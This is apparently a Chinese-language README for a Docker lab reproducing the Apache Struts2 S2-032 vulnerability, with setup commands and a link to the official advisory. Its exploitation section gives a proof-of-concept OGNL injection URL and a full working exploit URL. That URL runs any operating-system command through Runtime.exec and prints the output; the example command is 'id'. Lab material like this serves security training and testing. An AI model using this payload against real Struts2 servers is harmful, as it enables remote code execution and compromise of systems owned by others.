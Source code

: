 ## Struts2 S2-032 漏洞环境

### 说明

 官方 demo 中提供的 war 包由于添加了 jsp 拦截器，配置会有问题，修正了一下。

### 漏洞信息

 * [S2-032 官方公告](http://struts.apache.org/docs/s2-032.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-032
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-032
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

```
http://127.0.0.1/memoindex.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23context[%23parameters.obj[0]].getWriter().print(%23parameters.content[0]%2b602%2b53718),1?%23xx:%23request.toString&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=10086
```
若页面显示：`1008660253718` 则代表可代码执行。

####  Exp

执行命令(所执行的命令在cmd参数处指定)：

```
http://127.0.0.1/memoindex.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

### 改动日志

20160731

 * 修正资源为本地路径
